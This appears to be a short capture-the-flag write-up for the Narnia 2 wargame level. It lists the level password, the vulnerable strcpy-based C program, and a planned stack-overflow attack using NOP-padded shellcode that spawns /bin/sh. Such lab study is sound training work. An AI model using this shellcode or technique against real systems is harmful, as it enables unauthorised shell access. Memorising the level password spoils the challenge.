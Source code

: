 # Narnia 2

Password: `nairiepecu`

C Code:

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

Looks to be a proper stack overflow, abusing the `strcpy` command (which doesnt check destination buffer length). My initial thoughts are that if I can overflow buffer so it overwrites the next instruction after strcpy (which will be where the instruction pointer is, and so the next instruction will be run) I can bounce into my own shellcode. Maybe just prefix the shellcode from narnia1 with a sufficient set of `no-op` codes so its lined up correctly?

Something like `./narnia2 "$(echo -e '\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')"`, with the shellcode prefixed with multiple `\x90` to get into the right position.